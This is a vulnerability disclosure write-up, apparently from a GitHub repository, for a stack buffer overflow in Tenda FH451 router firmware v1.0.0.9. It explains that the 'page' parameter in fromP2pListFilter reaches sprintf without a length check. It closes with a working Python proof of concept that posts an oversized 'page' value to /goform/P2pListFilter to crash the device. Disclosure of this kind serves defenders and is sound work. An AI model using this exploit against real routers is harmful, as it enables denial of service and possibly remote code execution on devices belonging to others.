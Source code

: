 # Tenda FH451 fromP2pListFilter
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromP2pListFilter function.

### Vulnerability details
In function fromP2pListFilter line 18, it reads in a user-provided parameter `page`. The variable `v11` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/13.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/P2pListFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```